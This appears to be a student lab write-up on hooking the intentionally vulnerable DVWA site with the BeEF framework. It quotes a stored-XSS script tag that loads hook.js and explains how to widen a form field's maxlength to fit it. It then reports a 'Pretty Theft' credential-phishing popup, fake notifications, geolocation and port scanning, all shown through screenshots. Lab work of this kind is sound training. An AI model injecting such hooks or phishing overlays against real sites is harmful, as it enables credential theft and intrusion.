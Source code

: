 ## "Hooking the DVWA Website via BeEF"

### 1. Successfully "hooked" URL 192.168.13.25 on port 80 / Firefox

    ![pic](hook-1.PNG)  

**NOTE: the payload required to "hook" the DVWA website requires injecting a script. However the script (script src="http://127.0.0.1:3000/hook.js"></script) has to many words to be fully pasted into the message. In-order to fix this limitation, you must change setting in the Inspect Element. Specifically the textarea name / maxlength from 50 to 75.**

### [Picture of script too short](hook-2.PNG) 

### [Picture of script length correct](hook-500.PNG)

### 2. Launching the Pretty Theft Attack

    ![pic](hook-3.PNG) 


* Victim entered the following:

    A) Email: Rob1@fake.com

    B) Password: 12345678

    ![pic](hook-4.PNG) 

* You can also see what the victim entered for EMAIL and PASSWORD in the LOGS TAB:

    ![pic](hook-5.PNG) 

* Picture of the attack from Linux Command Line

    ![pic](hook-6.PNG) 

### 3. From the pictures above you can see that the attack was SUCCESSFULL

**Example of a SUCCESSFULL Fake Notification Attack**

![pic](hook-7.PNG) 

 **Example of a SUCCESSFULL Get Geolocation (Third Party) Attack**

![pic](hook-8.PNG)

 **Example of a SUCCESSFULL Port Scanner Attack**

![pic](hook-9.PNG)

